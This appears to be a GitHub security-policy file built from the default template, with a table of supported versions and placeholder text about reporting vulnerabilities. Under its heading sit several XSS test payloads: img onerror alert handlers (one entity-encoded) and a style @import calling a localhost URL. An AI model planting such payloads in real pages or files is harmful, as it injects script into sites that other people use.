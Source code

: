 # Security Policy
“><img only src=1 onerror=alert('HERER')>
"><style>@import url(http://localhost:3001/start)</style>
HtmlNumericEnti">&#60;img src=x onerror=alert('HtmlNumericEntities')>
“> "> HtmlNumericEnti"><img src=x onerror=alert('HtmlNumericEntities')> 
## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| 5.1.x   | :white_check_mark: |
| 5.0.x   | :x:                |
| 4.0.x   | :white_check_mark: |
| < 4.0   | :x:                |

## Reporting a Vulnerability

Use this section to tell people how to report a vulnerability.

Tell them where to go, how often they can expect to get an update on a
reported vulnerability, what to expect if the vulnerability is accepted or
declined, etc.
